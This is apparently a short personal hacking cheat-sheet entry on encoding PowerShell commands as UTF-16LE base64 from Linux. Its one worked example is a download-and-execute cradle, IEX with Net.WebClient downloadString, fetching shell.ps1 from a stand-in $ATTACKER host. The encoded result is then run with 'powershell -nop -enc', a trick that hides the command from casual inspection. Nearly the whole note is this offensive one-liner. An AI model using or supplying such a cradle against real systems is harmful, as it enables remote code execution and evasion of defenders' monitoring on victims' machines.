 # powershell encode commands as base64 with windows wide char strings in linux
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# References
- [20221003150730](/zet/20221003150730/README.md) powershell
- ~/kb/hacking/commands/encode-powershell-base64-windows.md

Tags:
    #assorted #command
